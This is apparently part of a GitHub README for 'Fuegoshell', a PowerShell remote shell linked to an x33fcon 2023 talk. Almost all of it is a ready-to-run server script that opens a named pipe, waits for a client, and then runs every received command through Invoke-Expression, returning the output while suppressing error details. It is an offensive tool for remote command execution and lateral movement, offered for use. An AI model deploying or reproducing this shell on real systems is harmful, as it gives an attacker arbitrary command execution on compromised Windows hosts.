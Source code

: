 In a Powershell command prompt just run :  


```

$npipeServer = new-object System.IO.Pipes.NamedPipeServerStream('fuegoshell', [System.IO.Pipes.PipeDirection]::InOut)
try {
    'Fuegoshell-server started'
    'Waiting for client connection'
    $npipeServer.WaitForConnection()
    'Connection established'

    $pipeReader = new-object System.IO.StreamReader($npipeServer)
    $script:pipeWriter = new-object System.IO.StreamWriter($npipeServer)
    $pipeWriter.AutoFlush = $true

    #$clientName = $env:computername
    #WriteToPipeAndLog "Connected to $clientName !"
    
    # say hello
    $pipeWriter.WriteLine("Connected on "+$env:computername)

    while (1)
    {
        $pipeWriter.WriteLine('YOURMOVE')
        $command = $pipeReader.ReadLine()
        if ($command -eq 'exit') { break }
        try {
            # Some code that may cause an error
            $data = iex $command | Out-String ;
        }
        catch {
            ### Logging the error
            # local log :
            # Write-host -f red "Encountered Error:"$_.Exception.Message
            # remote log : 
            # $data = $Error[0] | Out-String ;
            
            ### no error display
            $data = "error : maybe empty or wrong command line"
        }
        
        
        $msg = $data
        $pipeWriter.WriteLine($msg)
    }

    Start-Sleep -Seconds 2
}
finally {
    'Shell exiting'
    $npipeServer.Dispose()
}

```


[LINK1]: https://www.x33fcon.com/#!archive/2023/con.md  
[LINK2]: https://www.youtube.com/watch?v=PfjPBEqn51M 
[LINK3]: https://twitter.com/yossi_sassi
[LINK4]: https://github.com/v1k1ngfr/fuegoshell/